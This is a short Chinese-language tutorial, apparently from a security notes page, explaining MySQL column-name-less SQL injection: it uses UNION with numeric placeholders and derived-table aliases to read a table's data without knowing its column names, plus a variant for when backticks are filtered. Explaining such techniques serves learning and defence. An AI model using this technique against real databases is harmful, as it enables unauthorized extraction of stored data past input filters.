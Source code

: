 <br/>

## Trick
### 无列名注入
在不知道列名的情况下可以使用无列名注入。原理：在不知道列名的情况下，通过给列名用取别名的同时，将别名进行数据查询。

正常查询，可以看到student表中有id，name，gender 三个列
```sql
mysql> select * from student;
+------+-------+--------+
| id   | name  | gender |
+------+-------+--------+
|    1 | root  |      1 |
|    2 | admin |      1 |
|    3 | guest |      0 |
+------+-------+--------+
3 rows in set (0.00 sec)
```
通过union将两个表联合，数字1，2，3分别和student的列名一一对应
```sql
mysql> select 1,2,3 union select * from student;
+------+-------+------+
| 1    | 2     | 3    |
+------+-------+------+
|    1 | 2     |    3 |
|    1 | root  |    1 |
|    2 | admin |    1 |
|    3 | guest |    0 |
+------+-------+------+
4 rows in set (0.00 sec)
```
继续用数字对应列名，并且用`a`这个别名替代之前的查询内容，就可以实现无列名注入
```sql
mysql> select `2`  from (select 1,2,3 union select * from student) a;
+-------+
| 2     |
+-------+
| 2     |
| root  |
| admin |
| guest |
+-------+
4 rows in set (0.00 sec)
```
如果反引号 \` \` 被禁用可以用其他字母来代替
```sql
mysql> select b  from (select 1,2 as b,3 union select * from student) a;
+-------+
| b     |
+-------+
| 2     |
| root  |
| admin |
| guest |
+-------+
4 rows in set (0.06 sec)
```
